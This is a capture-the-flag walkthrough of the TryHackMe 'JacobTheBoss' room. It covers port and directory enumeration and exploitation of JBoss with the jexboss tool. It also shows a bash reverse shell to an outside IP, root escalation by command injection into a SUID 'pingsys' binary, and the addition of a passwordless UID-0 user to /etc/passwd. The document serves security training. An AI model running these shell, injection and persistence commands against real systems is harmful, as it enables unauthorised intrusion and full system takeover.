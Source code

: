 # 58 - JacobTheBoss (jboss exploitation)

Room Link --> [https://tryhackme.com/room/jacobtheboss](https://tryhackme.com/room/jacobtheboss)

\*First of all, add the `jacobtheboss.box` address to your hosts file.

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.203.6 -p- -T4 -T5 -sV

22/tcp    open  ssh          syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http         syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
111/tcp   open  rpcbind      syn-ack 2-4 (RPC #100000)
1090/tcp  open  java-rmi     syn-ack Java RMI
1098/tcp  open  java-rmi     syn-ack Java RMI
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack Java Object Serialization
4444/tcp  open  java-rmi     syn-ack Java RMI
4445/tcp  open  java-object  syn-ack Java Object Serialization
4446/tcp  open  java-object  syn-ack Java Object Serialization
4457/tcp  open  tandem-print syn-ack Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack
8009/tcp  open  ajp13        syn-ack Apache Jserv (Protocol v1.3)
8080/tcp  open  http         syn-ack Apache Tomcat/Coyote JSP engine 1.1
8083/tcp  open  http         syn-ack JBoss service httpd
39195/tcp open  unknown      syn-ack
42774/tcp open  java-rmi     syn-ack Java RMI
43179/tcp open  unknown      syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://jacobtheboss.box -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403,404 -x php,txt,db,sql,ini

/index.php
/themes
/public
/admin
/LICENSE
/CHANGELOG
/CREDITS
/locales
```
{% endcode %}

Visiting port 8080

[http://jacobtheboss.box:8080/](http://jacobtheboss.box:8080/jmx-console/HtmlAdaptor?)

### Initial Access

I searched for the jboss exploit, and hacktricks rediected me to this [link](https://github.com/joaomatosf/jexboss).

Clone the repo and run the script.

```bash
python3 jexboss.py -u http:///jacobtheboss.box:8080/

# and got a limited shell.
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Getting a better shell

Setup NC listener and run this in the restricted shell.

```bash
Shell> /bin/bash -i > /dev/tcp/10.18.88.214/4242 0<&1 2>&1
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Shell is a bit stable now.

### Priv Esc

{% code overflow="wrap" lineNumbers="true" %}
```bash
[jacob@jacobtheboss ~]$ finfind / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
[jacob@jacobtheboss ~]$
```
{% endcode %}

That `/usr/bin/pingsys` is an interesting binary. @ ways to exploit it:

#### Option 1

We enter the below cmd and got root.

```bash
[jacob@jacobtheboss ~]$ /usr/bin/pingsys '10./usr/bin/pingsys '10.10.203.6; /bin/bash'
/usr/bin/pingsys '10.10.203.6; /bin/bash'
PING 10.10.203.6 (10.10.203.6) 56(84) bytes of data.
64 bytes from 10.10.203.6: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 10.10.203.6: icmp_seq=2 ttl=64 time=0.028 ms
64 bytes from 10.10.203.6: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 10.10.203.6: icmp_seq=4 ttl=64 time=0.029 ms

--- 10.10.203.6 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.014/0.026/0.034/0.008 ms
[root@jacobtheboss ~]# 


```

#### Option 2

In this command below, “0” is the UID of the root user, so adding a user with the UID of “0” will give that user root privileges. This user will have the username of “dking” and an empty password:

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/bin/pingsys ‘10.10.244.174; echo dking::0:0:pwned by d31ng:/root/root:/bin/bash >> /etc/passwd
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*CRQ5jvlqgT95SoEsiJg6JQ.png" alt="" height="210" width="700"><figcaption></figcaption></figure>

Done!
